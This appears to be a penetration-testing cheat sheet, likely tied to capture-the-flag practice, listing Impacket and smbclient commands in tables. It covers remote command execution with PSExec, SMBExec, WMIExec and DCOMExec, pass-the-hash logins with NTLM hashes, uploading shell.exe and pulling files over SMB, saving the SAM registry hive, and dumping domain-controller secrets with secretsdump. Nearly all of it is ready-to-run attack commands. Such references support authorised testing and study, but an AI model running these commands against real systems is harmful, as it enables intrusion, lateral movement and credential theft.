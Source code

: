 ### PSExec and Similar

| Command | Description |
|---------|-------------|
| `psexec.py domain/username:password@10.10.10.40` | Impacket PSExec |
| `smbexec.py domain/username:password@10.10.10.40` | Impacket SMBExec |
| `wmiexec.py domain/username:password@10.10.10.40` | Impacket WMIExec |
| `dcomexec.py domain/username:password@10.10.10.40` | Impacket DCOMExec |

### Pass-the-Hash Attacks

| Command | Description |
|---------|-------------|
| `psexec.py -hashes :ntlmhash username@10.10.10.40` | PSExec with NTLM hash |
| `smbexec.py -hashes :ntlmhash username@10.10.10.40` | SMBExec with NTLM hash |
| `wmiexec.py -hashes :ntlmhash username@10.10.10.40` | WMIExec with NTLM hash |

## SMB Post-Exploitation

### File Operations

| Command | Description |
|---------|-------------|
| `smbclient //10.10.10.40/C$ -U administrator -c "get flag.txt"` | Download specific file |
| `smbclient //10.10.10.40/C$ -U administrator -c "put shell.exe"` | Upload file |
| `smbclient //10.10.10.40/C$ -U administrator -c "ls Users\"` | List user directories |

### Registry Access

| Command | Description |
|---------|-------------|
| `reg.py domain/username:password@10.10.10.40 query -keyName HKLM\\SOFTWARE` | Query registry remotely |
| `reg.py domain/username:password@10.10.10.40 save -keyName HKLM\\SAM` | Save registry hive |

### Secretsdump

| Command | Description |
|---------|-------------|
| `secretsdump.py domain/username:password@10.10.10.40` | Extract secrets |
| `secretsdump.py -hashes :ntlmhash username@10.10.10.40` | Extract with hash |
| `secretsdump.py -just-dc domain/username:password@10.10.10.40` | Extract DC secrets only |
